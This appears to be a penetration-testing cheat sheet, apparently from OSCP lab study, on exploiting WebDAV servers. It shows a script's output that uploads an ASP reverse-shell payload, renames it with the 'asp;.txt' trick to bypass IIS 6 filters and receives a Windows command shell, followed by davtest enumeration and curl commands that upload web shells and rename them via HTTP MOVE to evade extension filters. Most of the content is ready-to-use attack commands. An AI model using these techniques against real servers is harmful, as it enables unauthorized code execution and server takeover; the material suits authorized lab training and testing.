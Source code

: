 # Webdav

```sh
root@kali:~/OSCP# ./webdav_upload_rce.py http://10.11.1.XXX 10.11.0.XXX 1337
[+] LHOST = 10.11.0.XXX
[+] LPORT = 1337
[+] Building payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of asp file: 38215 bytes
Saved as: /tmp/1.asp.txt
[+] Netcat port: 1337
listening on [any] 1337 ...
[+] Upload payload: /tmp/1.asp.txt
[+] Renaming for filter bypass: 1.asp;.txt
[+] Trigger payload
connect to [10.11.0.XXX] from (UNKNOWN) [10.11.1.XXX] 1124
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\\windows\\system32\\inetsrv>
```

## Filter bypass

IIS 6.0 or below Asp > upload as test.txt, copy or move file as test.asp;.txt
                                                                                                     
## Webdav enumeration

davtest -url http://xx.xx.xx.xx

## Upload shell 

curl -vvv --upload-file cmd.php http://xxx.xxx.xxx.xxx/webdav/cmd.php --user username:password

## Upload shell as html and rename to bypass filter

```sh
curl -vvv -T '/home/nighter/shell.html' 'http://xxx.xxx.xxx.xxx/'
curl -v -X MOVE --header 'Destination:http://xxx.xxx.xxx.xxx/shell.aspx' 'http://xxx.xxx.xxx.xxx/shell.html'
```
